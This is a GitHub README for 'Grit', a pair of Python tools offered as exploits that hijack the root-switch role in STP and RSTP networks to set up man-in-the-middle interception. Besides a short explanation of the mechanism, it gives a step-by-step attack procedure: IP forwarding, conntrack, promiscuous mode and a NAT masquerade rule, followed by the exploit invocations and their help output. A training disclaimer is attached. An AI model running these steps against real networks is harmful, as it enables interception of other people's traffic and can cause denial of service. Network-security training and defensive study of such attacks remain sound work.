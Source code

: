 # Grit
STP &amp; RSTP Root Hijacking Exploits

**The author has nothing to do with those who will use these tools for personal purposes to destroy other people's computer networks. The tools are presented for training purposes to help engineers improve the security of their network.**

## 1. Mechanics of the attack.

The basic principle of the tools is to generate an STP/RSTP frame with the lowest priority value. Which in turn allows you to intercept the role of the root switch.
After that, an opportunity will open for a MITM attack, you will partially intercept traffic, not all of it. Keep that in mind.
But don't forget that the BPDU GUARD system can stop you.

## 2. Limitations

Depending on the power of your hardware. some host traffic will go through you, you have to withstand this load, otherwise DoS will occur.

## 3. Attack
First you need to install the dependencies.

```
sudo pip3 install -r requirements.txt
```

### 3.1 Enable Forwarding

```
sysctl -w net.ipv4.ip_forward
```
### 3.2 Enable Conntrack (nf_conntrack_helper)
```
modprobe nf_conntrack
echo "1" > /proc/sys/net/netfilter/nf_conntrack_helper
```
### 3.3 Promisc mode on interface
```
ifconfig ethX promisc
```
### 3.4 NAT
```
iptables -t nat -A POSTROUTING -o ethX -j MASQUEADE
```

### 3.5 Start of injection.
#### 3.5.1 STP
```
python3 stpexploit.py --interface ethX --mac XX:XX:XX:XX:XX:XX
```
#### 3.5.2 RSTP
```
python3 rstpexploit.py --interface ethX --mac XX:XX:XX:XX:XX:XX
```
After executing the injection, you will intercept the role of the root switch. you can track generated STP ads in Wireshark or tcpdump :)



## 4. Help

```
python3 stpexploit.py  --help     

  ▄████  ██▀███   ██▓▄▄▄█████▓
 ██▒ ▀█▒▓██ ▒ ██▒▓██▒▓  ██▒ ▓▒
▒██░▄▄▄░▓██ ░▄█ ▒▒██▒▒ ▓██░ ▒░
░▓█  ██▓▒██▀▀█▄  ░██░░ ▓██▓ ░ 
░▒▓███▀▒░██▓ ▒██▒░██░  ▒██▒ ░ 
 ░▒   ▒ ░ ▒▓ ░▒▓░░▓    ▒ ░░   
  ░   ░   ░▒ ░ ▒░ ▒ ░    ░    
░ ░   ░   ░░   ░  ▒ ░  ░      
      ░    ░      ░          

STP Root Hijacking Exploit
For the classic version of Spanning Tree Protocol

Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: stpexploit.py [-h] --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
                        Choose the interface to attack
  --mac EVILMAC         Specify your MAC
```

```
python3 rstpexploit.py --help                                                                                                                          2 ↵

  ▄████  ██▀███   ██▓▄▄▄█████▓
 ██▒ ▀█▒▓██ ▒ ██▒▓██▒▓  ██▒ ▓▒
▒██░▄▄▄░▓██ ░▄█ ▒▒██▒▒ ▓██░ ▒░
░▓█  ██▓▒██▀▀█▄  ░██░░ ▓██▓ ░ 
░▒▓███▀▒░██▓ ▒██▒░██░  ▒██▒ ░ 
 ░▒   ▒ ░ ▒▓ ░▒▓░░▓    ▒ ░░   
  ░   ░   ░▒ ░ ▒░ ▒ ░    ░    
░ ░   ░   ░░   ░  ▒ ░  ░      
      ░    ░      ░          

RSTP Root Hijacking Exploit
For Rapid Spanning Tree Protocol version

Author: Magama Bazarov, @in9uz, <in9uz@protonmail.com>

usage: rstpexploit.py [-h] --interface INTERFACE --mac EVILMAC

options:
  -h, --help            show this help message and exit
  --interface INTERFACE
  --mac EVILMAC
```
